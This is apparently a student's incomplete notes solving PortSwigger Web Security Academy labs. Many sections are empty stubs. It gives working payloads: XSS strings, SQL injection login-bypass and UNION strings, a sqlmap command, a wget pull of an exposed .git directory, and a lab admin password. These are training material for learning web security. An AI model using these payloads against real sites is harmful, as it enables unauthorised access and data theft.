




# Mystery lab challenge

[https://portswigger.net/web-security/all-labs](https://portswigger.net/web-security/all-labs)

## Table of Contents
- [Mystery lab challenge](#mystery-lab-challenge)
  - [Table of Contents](#table-of-contents)
  - [Access control vulnerabilities](#access-control-vulnerabilities)
    - [Unprotected admin functionality](#unprotected-admin-functionality)
      - [Approaches](#approaches)
      - [Solution](#solution)
    - [Unprotected admin functionality with unpredictable URL](#unprotected-admin-functionality-with-unpredictable-url)
      - [Approaches](#approaches)
      - [Solution](#solution)
  - [Cross-origin resource sharing (CORS)](#cross-origin-resource-sharing-cors)
  - [Cross-site scripting](#cross-site-scripting)
    - [Reflected XSS into HTML context with nothing encoded](#reflected-xss-into-html-context-with-nothing-encoded)
      - [Solution](#solution)
    - [Stored XSS into HTML context with nothing encoded](#stored-xss-into-html-context-with-nothing-encoded)
      - [Solution](#solution)
    - [DOM XSS in document.write sink using source location.search](#dom-xss-in-document-write-sink-using-source-location-search)
      - [Solution](#solution)
    - [DOM XSS in innerHTML sink using source location.search](#dom-xss-in-innerhtml-sink-using-source-location-search)
      - [Solution](#solution)
    - [DOM XSS in jQuery anchor href attribute sink using location.search source](#dom-xss-in-jquery-anchor-href-attribute-sink-using-location-search-source)
      - [Solution](#solution)
    - [DOM XSS in jQuery selector sink using a hashchange event](#dom-xss-in-jquery-selector-sink-using-a-hashchange-event)
      - [Solution](#solution)
  - [Cross-site request forgery (CSRF)](#cross-site-request-forgery-csrf)
  - [Insecure deserialization](#insecure-deserialization)
  - [DOM-based vulnerabilities](#dom-based-vulnerabilities)
  - [Directory traversal](#directory-traversal)
  - [File upload vulnerabilities](#file-upload-vulnerabilities)
  - [HTTP Host header attacks](#http-host-header-attacks)
  - [Information disclosure](#information-disclosure)
    - [Information disclosure in error messages](#information-disclosure-in-error-messages)
      - [Approaches](#approaches)
      - [Solution](#solution)
    - [Information disclosure in version control history](#information-disclosure-in-version-control-history)
        - [Download Git Repo](#download-git-repo)
        - [Browse .git repo with command line `git` client](#browse-git-repo-with-command-line-git-client)
  - [Business logic vulnerabilities](#business-logic-vulnerabilities)
  - [OAuth authentication](#oauth-authentication)
  - [HTTP request smuggling](#http-request-smuggling)
  - [Server-side template injection](#server-side-template-injection)
  - [SQL injection](#sql-injection)
    - [SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](#sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data)
      - [Approaches](#approaches)
      - [Solution:](#solution)
    - [SQL injection vulnerability allowing login bypass](#sql-injection-vulnerability-allowing-login-bypass)
      - [Approaches](#approaches)
      - [Solution](#solution)
    - [SQL injection UNION attack, determining the number of columns returned by the query](#sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query)
      - [Approaches](#approaches)
      - [Solution](#solution)
  - [Server-side request forgery (SSRF)](#server-side-request-forgery-ssrf)
  - [Authentication](#authentication)
  - [WebSockets](#websockets)
    - [Manipulating WebSocket messages to exploit vulnerabilities](#manipulating-websocket-messages-to-exploit-vulnerabilities)
      - [Approaches](#approaches)
      - [Solution](#solution)
  - [Web cache poisoning](#web-cache-poisoning)
  - [XML external entity (XXE) injection](#xml-external-entity-xxe-injection)
- [Cross-site scripting](#cross-site-scripting)

## Access control vulnerabilities

### Unprotected admin functionality

> This lab has an unprotected admin panel.
>
> Solve the lab by deleting the user carlos.

#### Approaches
* As I can't finde admin login with */admin* or */administrator*, try to see what's in */robots.txt*

#### Solution

> /administrator-panel without Username or Password

### Unprotected admin functionality with unpredictable URL

> This lab has an unprotected admin panel. It's located at an unpredictable location, but the location is disclosed somewhere in the application.
>
>Solve the lab by accessing the admin panel, and using it to delete the user carlos.

#### Approaches

* Checking Source Code ... 

#### Solution

* /admin-y4wy92 

## Cross-origin resource sharing (CORS)

## Cross-site scripting

### Reflected XSS into HTML context with nothing encoded

> This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.
> 
> To solve the lab, perform a cross-site scripting attack that calls the alert function.

#### Solution
Put this into search field:
``

### Stored XSS into HTML context with nothing encoded

> This lab contains a stored cross-site scripting vulnerability in the comment functionality.
> 
> To solve this lab, submit a comment that calls the alert function when the blog post is viewed.

#### Solution

### DOM XSS in document.write sink using source location.search

> This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.
> 
> To solve this lab, perform a cross-site scripting attack that calls the alert function.

#### Solution

`">`

### DOM XSS in innerHTML sink using source location.search

> This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.
> 
> To solve this lab, perform a cross-site scripting attack that calls the alert function.

#### Solution

`'<iframe src="javascript:alert('hacked')"></iframe>`

### DOM XSS in jQuery anchor href attribute sink using location.search source

> This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's $ selector function to find an anchor element, and changes its href attribute using data from location.search.
> 
> To solve this lab, make the "back" link alert document.cookie.

#### Solution

`https://ac9e1f261f8059e7c0480f4600a40022.web-security-academy.net/feedback?returnPath=javascript:alert(%27hacked%27)`

### DOM XSS in jQuery selector sink using a hashchange event

> This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's $() selector function to auto-scroll to a given post, whose title is passed via the location.hash property.
> 
> To solve the lab, deliver an exploit to the victim that calls the print() function in their browser.

#### Solution

`<iframe width="100%" height="100%" src="https://ac5f1f911e4329f7c0382ff2007200c0.web-security-academy.net//#" onload="this.src+=''"></iframe>`

## Cross-site request forgery (CSRF)

## Insecure deserialization

## DOM-based vulnerabilities

## Directory traversal

## File upload vulnerabilities

## HTTP Host header attacks

## Information disclosure

### Information disclosure in error messages

> This lab's verbose error messages reveal that it is using a vulnerable version of a third-party framework. To solve the lab, obtain and submit the version number of this framework.

#### Approaches

* Put invalid value in URL param /product?productId=2aasdfsadfs

#### Solution

### Information disclosure in version control history

> This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the administrator user then log in and delete Carlos's account.

##### Download Git Repo
wget -r https://acfe1f7c1e358e5ec0836b3d0033001e.web-security-academy.net/.git/

##### Browse .git repo with command line `git` client

https://acfe1f7c1e358e5ec0836b3d0033001e.web-security-academy.net/my-account
\
User: administrator
\
Password: eoj2zssgznqxoo2p3icm

## Business logic vulnerabilities

## OAuth authentication

## HTTP request smuggling

## Server-side template injection

## SQL injection

### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

> This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:
> 
> SELECT * FROM products WHERE category = 'Gifts' AND released = 1
> To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

#### Approaches

*  `sqlmap -u https://ac2c1fc91f0b7373c08708640007008f.web-security-academy.net/filter\?category\=Gifts`
 

* Check [SQL Injection Payload List on GitHub](https://github.com/payloadbox/sql-injection-payload-list)

#### Solution:
> https://ac3a1f901e2f8e40c0277bda00020033.web-security-academy.net/filter?category=Pets'+OR+1=1--

### SQL injection vulnerability allowing login bypass

> This lab contains an SQL injection vulnerability in the login function.
> 
> To solve the lab, perform an SQL injection attack that logs in to the application as the administrator user.

#### Approaches
* Trying to use the technique we saw in the Hacking Lab Live Session 

#### Solution

%' OR '0'='0

### SQL injection UNION attack, determining the number of columns returned by the query

> This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.
> 
> To solve the lab, determine the number of columns returned by the query by performing an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing null values.

#### Approaches

* Try to inspect via sqlmap

* Reading about UNION Injections: [SQL injection UNION attack](https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635) and  [SQL injection UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
* Now we know table name (*products*) and that there are *3 columns* in category query

#### Solution

/filter?category=Gift''+UNION+SELECT+NULL,NULL,NULL+from+products-- 

## Server-side request forgery (SSRF)

## Authentication

## WebSockets

### Manipulating WebSocket messages to exploit vulnerabilities

> This online shop has a live chat feature implemented using WebSockets.
>
>Chat messages that you submit are viewed by a support agent in real time.
>
>To solve the lab, use a WebSocket message to trigger an alert() popup in the support agent's browser.

#### Approaches
* Try to modify WebSocket message with Burpsuite...

#### Solution

Submit this via Support Chat Input Field doesn't work because it will be URL encoded. But when we Intercept Request with Burpsuite, we can send raw JS Script:

`<iframe src='javascript:alert(\"hacked\")'></iframe>`

## Web cache poisoning

## XML external entity (XXE) injection

# Cross-site scripting

